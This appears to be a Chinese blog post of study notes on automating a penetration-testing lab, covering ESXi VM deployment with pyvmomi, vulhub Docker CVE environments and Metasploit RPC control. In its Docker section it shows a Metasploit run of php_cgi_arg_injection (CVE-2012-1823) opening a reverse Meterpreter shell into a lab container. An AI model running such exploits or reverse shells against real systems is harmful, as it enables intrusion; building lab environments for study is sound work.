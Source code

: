 ```yaml
---
title: 自动化渗透测试环境
tags: [渗透测试]
date: 2024-07-02 19:24:00
categories: [学习笔记]
excerpt: 1. 用EXSi自动化部署vulnhub的虚拟机 ; 2. 用docker模拟github上vulhub的CVE
---
```


以下内容对应仓库

https://github.com/Isolator-1/AutoPT-test-

在`https://www.vulnhub.com/`上的基本上都是一些ova虚拟机（也有一些iso镜像），而在`https://github.com/vulhub/vulhub/tree/master`上都是一些docker。前者使用ESXi来管理控制。

这两者的区别在于，前者环境数量更多，但是不知道漏洞是啥；后者数量没那么多，但是都知道CVE是什么，直接去metasploit里查就行了。





## vmware ESXi

对应代码`VmManage.py`



ESXi是一个可以管理多个虚拟机的host，是一个OS，可以直接装物理机硬件上，但这里还是装在WorkStation里

vmware 的官方  [文档](https://docs.vmware.com/cn/VMware-vSphere/7.0/com.vmware.esxi.install.doc/GUID-016E39C1-E8DB-486A-A235-55CAB242C351.html)，但是在下载ESXi的地方，vmware官网现在好像不能直接下载了，（懒得看具体啥情况了，直接找了个别人分享的  [链接](https://pan.baidu.com/s/1TR1HdluM4u36cArjSyKMYw)）

安装过程略，和普通虚拟机一样，会有个设置密码的过程，虚拟机创建完，可以通过web访问到，用户名是root，密码就是之前设置的。

![](/img/学习笔记/ESXi/1.jpg)

在安装时，要勾选cpu里的Intel VT-x EPT...选项

> 这个问题似乎很玄乎，我解释不清。和“启用关闭windows功能”里wsl、hyperv、虚拟机平台那几个取消勾选有关，也和家庭版windows有关（家庭版没有hyperv等几个选项，虽然有个脚本可以调出来，但我也不知道实际有没有用）
>
> 管理员执行 bcdedit /set hypervisorlaunchtype off ，这里我的电脑好了，但似乎网上说如果解决不了还有后续😶‍🌫️
>
> 不管了

##### 分配IP地址踩的坑

一开始显示的ip是能用的，但是重启一次发现，dhcp分配出来一个很奇怪的ip（不是自己的子网内的ip，是一个169开头的，不是192开头的，很奇怪不理解），然后试了host only，NAT，桥接，dhcp出来的都是那个169开头的😵‍💫😵‍💫😵‍💫在设置里启用shell, alt F1进入shell，也看不了网卡

所以通过`Restart System Configuration`重置了一下，发现IP能正确分配了

😭😭😭😭😭

（这时的密码会变成空，用户名还是root）

##### 后续部分参考自

https://github.com/vmware/pyvmomi-community-samples/tree/master

这是一些基于pyvmomi的原子操作上写的一些工具

### 通过代码连接ESXi

```bash
pip install pyVim==0.0.21  
pip install pyvmomi==6.7.1
```

对应仓库中`class VmManage . __init__`

这里要注意的是，虽然代码只引用了`pyvim`，但如果只安装`pyvim`，这个库会少很多东西，比如没有`SmartConnectNoSSL`，只有`SmartConnect`，然后链接的时候就需要证书，所以`pyvmomi`是必须要装的

### 导入ova

因为当时的需求是要自动安装从vulnhub下载的环境，大部分都是iso和ova

> 在源项目deploy_ova.py中，upload_disk需要改一下，否则无法上传带iso文件的ova，见issue：https://github.com/vmware/pyvmomi-community-samples/issues/392

### 其他操作

开机关机，删除虚拟机这些就没啥特别的了，全都参考自那个community samples





## Docker

对应代码`DockerManager.py`



直接看`https://github.com/vulhub/vulhub/tree/master`的说明就行，不多做赘述

这个库里存了一堆`docker-compose.yml`，用哪个就创建哪个就行了

比如`php/CVE-2012-1823`

直接在这个目录下用`docker-compose up -d`，然后就可以通过容器映射的端口访问到了

```
msf6 exploit(multi/http/php_cgi_arg_injection) > run

[*] Started reverse TCP handler on 192.168.71.131:4444 
[*] Sending stage (39927 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.71.131:4444 -> 172.20.0.2:38974) at 2024-07-09 13:14:20 -0400

meterpreter > shell
Process 78 created.
Channel 0 created.

ls
index.php
info.php
```

`docker compose down -v` 删除环境

> docker 换源时，阿里云的源需要有一个自己的加速器地址，形如 https://<???>.mirror.aliyuncs.com，在这里申请：https://cr.console.aliyun.com/cn-hangzhou/instances/mirrors

##### 在代码中控制这些docker

由于docker compose是一个"CLI tool"，在docker的API中并没有与之相关的内容

即我没办法docker-compose之后，直接拿到由它创建出来的容器

所以只能在yml中解析出镜像的名字，然后在已经被创建的容器中按照镜像名检索😥

对应 `DockerManager.py` 的 `parse_yml` `get_container_by_images`

>  突然访问不到container？
>
>  遇到过本来好好的突然就访问不到web的情况，主机 `service docker restart` 就好了，不知道为啥



## 指定cve，通过metasploit攻击

对应代码`metasploit.py`，这部分代码抄自DeepExploit

踩过的坑：

console.write时，命令要带上换行符\n，文档原话是：The console.write method will send data to a specific console, just as if it had been typed by a normal user. This means that most commands will need a newline included at the end for the console to process them properly.（https://help.rapid7.com/metasploit/Content/api/rpc/standard-reference.html?Highlight=console）

就是这个换行测试的时候没加，导致命令怎么都执行不成功，调试了一下午也不知道问题出在哪里😥😥



## 无CVE


